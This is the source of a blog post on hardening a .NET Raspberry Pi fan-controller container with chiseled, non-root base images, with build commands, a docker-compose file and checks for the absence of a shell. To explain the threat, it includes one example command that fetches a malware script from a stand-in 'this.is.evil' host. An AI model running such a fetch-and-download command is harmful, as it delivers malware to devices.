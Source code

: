 ```yaml
---
layout: post
title: Using chiseled base images for a .NET app on a Raspberry Pi
description: Make your apps more secure by limiting the container's capabilities
comment_issue_id: 24
---
```


[In the last post]({{ site.baseurl }}/2024/01/21/SDK-container-building-tools.html), I showed you how to use the .NET SDK Container Building Tools that ship with .NET 8 to make building Docker images easier by removing the `Dockerfile` clutter.  
In this post, I want to show you how this became handy when migrating one of my apps to Docker.

## Introducing the _Raspi Fan Controller_ project

Some years ago, I bought a Raspberry Pi 4 and while getting into touch with this neat mini computer, I read several times that it might get pretty hot and should better be run with a heat sink. So I decided to attach a small CPU fan and build a custom fan controller software based on .NET ([read more about it here]({{ site.baseurl }}/2020/04/24/Raspi-Fan-Controller_p1)) - the [Raspi Fan Controller project](https://github.com/mu88/RaspiFanController).

At the very beginning, I deployed it as a self-contained executable (no need to install .NET) on bare metal. However, since all of my other apps are running in Docker, I decided to containerize it, too.  
The most tricky piece of this containerization was to learn about how to map the necessary paths and devices (like the Raspi's GPIO pins) into a container. Finally, I found a working solution with a lot of help from the community and so the _Raspi Fan Controller_ was running inside a container, too.

## Chiseled base images for .NET

To be honest: when I first read the word _chiseled_, I thought about it being a typo 😅 it came to my attention when reading another excellent blog post from Rich Landers: [Announcing .NET Chiseled Containers](https://devblogs.microsoft.com/dotnet/announcing-dotnet-chiseled-containers/)

If you never heard about it, here's my very brief takeaway of the concept: Docker images are made up of layers and the lowest layers are very similar to a lightweight OS and contain necessary vital libraries and tools (e. g. a shell).  
When running a container, however, it might not always be necessary to have a shell. Even more, consider a malicious component inside the container being able to run a shell and download and execute further malware via `curl https://this.is.evil/killThisDevice.ps1`.  
Chiseled images mitigate those issues by two approaches:
1. They are non-root by default (so you can't run `apt install` to install further tools).
2. They are stripped down to the bare minimum (there isn't even the `apt` tool nor a shell).

This way, a malicious component can do way less harm.

Microsoft provides chiseled base images for .NET for Ubuntu Jammy and they are tagged with the suffix `-chiseled`, e. g. `mcr.microsoft.com/dotnet/aspnet:8.0-jammy-chiseled`.

Another neat benefit of chiseled images is that they are way smaller. That makes sense as they contain less tools and are stripped down. For example, the ASP.NET Core 8 image for Ubuntu Jammy is 216 MB big - the chiseled counterpart only 110 MB.

## And why do you care?

Well, that's a perfect question! One could definitely argue that in my private home network, the chance of a malicious attack might be negligible. On the other hand, it's a nice apprentice piece to get used to the technology and better safe than sorry.

## Using chiseled images for the _Raspi Fan Controller_ project

Since I had already containerized my project and made use of the .NET SDK Container Building Tools, providing a chiseled variant is fairly easy:

{% highlight shell %}

dotnet publish --os linux --arch arm64 /t:PublishContainer \
    -p:ContainerRegistry=registry.hub.docker.com \
    '-p:ContainerImageTags="1.0.0;latest"'

dotnet publish --os linux --arch arm64 /t:PublishContainer \
    -p:ContainerRegistry=registry.hub.docker.com \
    '-p:ContainerImageTags="1.0.0-chiseled;latest-chiseled"' \
    -p:ContainerFamily=jammy-chiseled

{% endhighlight %}

The first command we already know from the first blog post: it builds a Docker image for the Raspi's `arm64` architecture, using the non-chiseled base images by default.  
For the second command, the parameter `ContainerFamily` is set to `jammy-chiseled` and that instructs the .NET SDK Container Building Tools to use the chiseled base image. To easily distinguish it, I use dedicated tags with the suffix `-chiseled`.

## Running the chiseled image

To create a Docker container from the chiseled image, the following `docker-compose.yml` can be used:

{% highlight yaml %}

version: '3'
services:
  raspifancontroller:
    container_name: raspifancontroller
    image: mu88/raspifancontroller:latest-chiseled
    ports:
      - 127.0.0.1:5000:8080
    user: "1654:997" # group 997 is necessary to access the GPIO pins
    volumes:
      - /sys/class/thermal/thermal_zone0:/sys/class/thermal/thermal_zone0:ro # CpuTemperature needs this
    devices:
      - /dev/gpiomem

{% endhighlight %}

Let's dissect it piece by piece:
- The previously created image `mu88/raspifancontroller:latest-chiseled` is pulled and the container named `raspifancontroller` exposes its port `8080` via `5000` to the host. So far, this is basic ASP.NET Core 8.
- The user ID (UID) is set to `1654`. This is a _magic number_ for the new `app` user with non-root capabilities - another .NET 8 feature (read more about it here: [Secure your .NET cloud apps with rootless Linux Containers](https://devblogs.microsoft.com/dotnet/securing-containers-with-rootless/))
- The user's group ID (GID) is set to `997`. This is the first important piece to notice as this group has the necessary permissions to control the Raspi's GPIO pins.
- The host file `/sys/class/thermal/thermal_zone0` is mapped into the container as read-only (notice the `:ro` suffix). This file contains the Raspi's current CPU temperature and is necessary for the fan controller.
- Lastly, the device `/dev/gpiomem` is mapped which actually represents the GPIO pins.

When running `docker compose up -d`, a Docker container will be started.

## See chiseled in action

Let's recap the benefits of chiseled images from the beginning:
- non-root by default
- reduced to the bare minimum (i. e. no shell)

Let's validate these statements!

### No shell

If there'd be a shell, we could connect to the container via `docker exec -it <<container>> bash`, so let's try it:

{% highlight shell %}
myUser@myRaspi:~ $ docker exec -it raspifancontroller bash
OCI runtime exec failed: exec failed: unable to start container process: exec: "bash": executable file not found in $PATH: unknown
{% endhighlight %}

Nice, we get an error indicating that there is no shell ✅

### Non-root by default

If there's no shell, how can we validate that the user has only limited permissions and cannot execute commands like `apt install`? We can check with a Docker command which user ID the process running inside the container has, because on Linux, the `root` user always has the UID `0`.

{% highlight shell %}
myUser@myRaspi:~ $ docker top raspifancontroller
UID    PID   PPID  C  STIME  TTY  TIME      CMD
1654  1796  1704  1  Mar22  ?    04:15:47  dotnet RaspiFanController.dll
{% endhighlight %}

Cool, we see that the .NET assembly `RaspiFanController.dll` is running with the `app`'s UID `1654`, i. e. as non-root ✅

## Closing

And with that, I want to close this mini-series about non-root and chiseled containers, built with the .NET SDK Container Building Tools.

I hope you enjoyed it - have a great time and take care 👋🏻

PS: I'm very proud that some parts of this journey even made it into the official Microsoft docs: [Control GPIO pins within rootless Docker container on Raspberry Pi](https://github.com/dotnet/iot/blob/main/Documentation/raspi-Docker-GPIO.md)
